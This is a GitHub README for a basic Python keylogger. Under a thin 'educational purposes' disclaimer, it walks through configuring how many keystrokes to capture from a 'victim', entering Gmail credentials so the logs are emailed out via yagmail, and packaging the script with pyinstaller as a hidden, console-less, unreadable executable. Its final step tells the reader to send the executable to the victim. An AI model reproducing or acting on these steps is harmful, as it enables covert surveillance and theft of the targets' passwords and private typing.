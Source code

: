 # Keylogger
Basic keylogger for Linux and Windows

# Disclaimer
```
Do not use this program for black hat purposes
The program created just for educational purposes
```
# less-secure apps

Enable less secure apps from here https://myaccount.google.com/lesssecureapps

# how-to-install

Clone the repository
```
git clone https://github.com/Cli3nt-ctrl/keylogger/
```
Change the directory
```
cd keylogger
```
Install the reuired python libraries
```
pip3 install requirements.txt
```

# how-to-use
open keylogger.py and enter the number of letters you wanna capture through victim
```
Enter the numbers here in the if loop :-- if len(a)==10 (default value is set as 10)
```
Enter your email id and password here
```
yagmail.SMTP(user='',password='')
```
Using the pyinstaller is optional. Pyinstaller creates your python file into executable format (.exe in  Windows and .elf in Linux) which also makes your python file unreadable
```
pyinstaller keylogger.py --no-console --onefile 
```
Your executable file will be in dist folder
```
cd dist
```
Send the executable file to your victim
